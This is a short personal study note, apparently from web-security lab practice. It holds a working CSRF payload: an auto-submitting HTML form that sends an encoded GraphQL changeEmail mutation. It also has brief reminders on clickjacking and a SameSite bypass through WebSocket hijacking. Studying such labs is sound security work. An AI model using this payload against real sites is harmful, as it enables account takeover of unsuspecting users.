 **Performing CSRF exploits over GraphQL:**
```
    <form action="https://{lab}/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test2&#64;test5&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
```

**Clickjacking with a frame buster script**
- Clickbandit -> allow forms



### Return to these labs:
- SameSite Strict bypass via sibling domain
  - Uses cross-site WebSocket hijacking
- Rest of the clickjacking labs


### Fix in notes:
- GraphQL - 